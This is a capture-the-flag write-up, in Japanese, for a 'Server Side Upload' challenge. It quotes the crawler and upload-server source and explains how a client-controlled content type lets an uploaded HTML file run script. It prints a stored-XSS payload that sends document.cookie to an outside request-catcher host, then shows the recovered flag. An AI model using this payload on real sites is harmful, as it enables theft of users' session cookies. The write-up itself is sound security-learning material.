

# Server Side Upload:Introduction:20pts
Are you familiar with the Feature to upload files to object storage via a server?  

- [Target](https://d1kesanhfxrlwb.cloudfront.net/)  

**source code**  

- [Web Application](https://drive.google.com/file/d/1EhS4wDU59xd3WLGLjIKX5aaHsT9OLDh6/view?usp=drive_link)  
- [Crawler](https://drive.google.com/file/d/1dTAdzuOVypB-i58qJchVN5s2tmJnCTxK/view?usp=drive_link)  

[https://d1kesanhfxrlwb.cloudfront.net/](https://d1kesanhfxrlwb.cloudfront.net/)  

# Solution
URLと二つのソースが配布される。  
アクセスするとファイルアップロードフォームと、クローラーへURLを渡すフォームがある。  
  
クローラのソースは以下のようであった。  
```ts
import { launch } from "puppeteer";
import { uploadToS3 } from "./s3";

const puppeteerArgs = [
  "--disable-dev-shm-usage",
  "--no-sandbox",
  "--disable-setuid-sandbox",
  "--disable-gpu",
  "--no-gpu",
  "--disable-default-apps",
  "--disable-translate",
  "--user-agent=mini-ctf-reporter/1.0",
  "--single-process",
];

export const crawler = async (url: string) => {
  const browser = await launch({
    headless: true,
    args: puppeteerArgs,
  });

  const page = await browser.newPage();
  // DOMAIN is Challenge Page Domain
  page.setCookie({
    name: "flag",
    value: process.env.FLAG || "flag{dummy}",
    domain: process.env.DOMAIN || "example.com",
  });
  await page.goto(url);
  await new Promise((resolve) => setTimeout(resolve, 500));
  const bodyHandle = await page.$("body");
  const html = await page.evaluate((body) => {
    if (!body) {
      return "HTML is empty";
    }
    return body.innerHTML;
  }, bodyHandle);
  const path = new URL(url).pathname;
  await uploadToS3(`delivery/${path.split("/").pop()}`, Buffer.from(html));
  await browser.close();
};
```
指定されたドメイン(問題サーバドメイン)のみをクロールでき、Cookieにフラグがある。  
つまりXSSでCookieを盗む問題のようだ。  
サーバのソースの主要部分は以下のようであった。  
```ts
~~~
const server = fastify();
server.register(fastifyMultipart);

server.register(fastifyStatic, {
  root: path.join('/app', 'public'),
});

const port = 3000;
const stage = process.env.STAGE || 'dev';

server.get('/', async (request, reply) => {
  return reply.sendFile('index.html');
});

server.post('/api/upload', async (request, reply) => {
  const data = await request.file({
    limits: {
      fileSize: 1024 * 1024 * 100,
      files: 1,
    },
  });
  if (!data) {
    return reply.code(400).send({ error: 'No file uploaded' });
  }

  const filename = uuidv4();
  const s3 = new S3Client({});
  const command = new PutObjectCommand({
    Bucket: process.env.BUCKET_NAME,
    Key: `upload/${filename}`,
    Body: data.file,
    ContentLength: data.file.bytesRead,
    ContentType: data.mimetype,
  });

  await s3.send(command);
  reply.send(`/upload/${filename}`);
  return reply;
});
~~~
```
ファイルの`data.mimetype`がそのまま`PutObjectCommand`されているので以下のようなHTMLをアップロードし、XSSすればよい。  
```html
<!DOCTYPE html>
<html>
<head>
    <title>XSSS</title>
</head>
<body>
    <h1>XSSS</h1>
    <script>
        fetch("https://enmz6ozs7du1q.x.pipedream.net/?satoki="+document.cookie);
    </script>
</body>
</html>
```
すると`https://d1kesanhfxrlwb.cloudfront.net/upload/f3851830-c6cb-466e-8419-dbe66a5a1677`のようなURLが降ってきた。  
これをクローラへ報告すると以下のようなリクエストが届く。  
```
GET
/?satoki=flag=flag{bfe061955a7cf19b12ff0f224e88d65a470e800a}
```
flagが得られた。  

## flag{bfe061955a7cf19b12ff0f224e88d65a470e800a}